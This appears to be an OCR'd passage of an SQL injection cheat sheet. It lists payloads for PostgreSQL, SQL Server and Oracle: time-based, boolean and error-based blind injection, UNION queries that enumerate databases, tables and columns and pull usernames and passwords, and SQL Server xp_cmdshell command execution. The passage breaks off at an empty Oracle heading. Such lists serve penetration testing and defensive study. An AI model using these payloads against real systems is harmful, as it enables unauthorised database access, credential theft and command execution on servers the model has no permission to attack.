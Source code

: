 ```sql
' AND pg_sleep(5)--
' AND (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END)--

-- Boolean-based blind
' AND (SELECT COUNT(*) FROM users)>0--
' AND ASCII(SUBSTRING((SELECT current_database()),1,1))>97--

-- Error-based
' AND (SELECT CAST((SELECT current_database()) AS int))--
```

### SQL Server Payloads
```sql
-- Version detection
' UNION SELECT @@version--

-- Database enumeration
' UNION SELECT name FROM sys.databases--
' UNION SELECT db_name()--

-- Table enumeration
' UNION SELECT name FROM sys.tables--

-- Column enumeration
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'--

-- Data extraction
' UNION SELECT username,password FROM users--

-- Command execution
'; EXEC xp_cmdshell('whoami')--
'; EXEC master..xp_cmdshell 'dir c:\'--

-- Time-based blind
'; WAITFOR DELAY '00:00:05'--
' AND (SELECT CASE WHEN (1=1) THEN 'A' ELSE (SELECT 'A' UNION SELECT 'B') END)='A'; WAITFOR DELAY '00:00:05'--

-- Boolean-based blind
' AND (SELECT COUNT(*) FROM users)>0--

-- Error-based
' AND (SELECT CAST((SELECT db_name()) AS int))--
```

### Oracle Payloads
```sql
-- Version detection
' UNION SELECT banner FROM v$version WHERE ROWNUM=1--

-- Database enumeration
' UNION SELECT SYS_CONTEXT('USERENV','DB_NAME') FROM dual--

-- Table enumeration
' UNION SELECT table_name FROM all_tables--

-- Column enumeration
' UNION SELECT column_name FROM all_tab_columns WHERE table_name='USERS'--

-- Data extraction
' UNION SELECT username,password FROM users--

-- Time-based blind
```